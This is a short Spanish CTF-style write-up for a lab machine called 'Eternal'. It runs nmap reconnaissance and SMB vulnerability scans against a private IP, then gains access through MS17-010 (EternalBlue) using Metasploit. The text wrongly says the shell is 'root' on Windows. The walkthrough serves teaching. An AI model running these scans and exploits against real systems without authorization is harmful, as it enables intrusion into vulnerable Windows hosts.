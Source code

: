 ```yaml
---
description: '🔍 Dificultad: Muy Fácil'
---
```


# Eternal

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.70
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1102).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.70 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1103).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, los **puertos 135, 139, 445, 5357**, y varios puertos en el rango 49152-49157 están abiertos. Estos pertenecen a los servicios de **Microsoft RPC, NetBIOS-SSN, Microsoft-DS, WSDAPI**, y puertos desconocidos, por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445,5357 -v 192.168.1.70
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (1104).png" alt=""><figcaption></figcaption></figure>

Estamos ante un Windows 7. Revisamos el puerto 445.

```bash
nmap -p445 --script="smb-vuln-*" 192.168.1.70
```

<figure><img src="../../.gitbook/assets/image (1105).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vamos explotar MS17-010 con Metasploit conocida como EternalBlue.

```bash
set RHOSTS 192.168.1.70
exploit
```

<figure><img src="../../.gitbook/assets/image (1106).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
getuid
```

aún somos **root.**

<figure><img src="../../.gitbook/assets/image (1107).png" alt=""><figcaption></figcaption></figure>
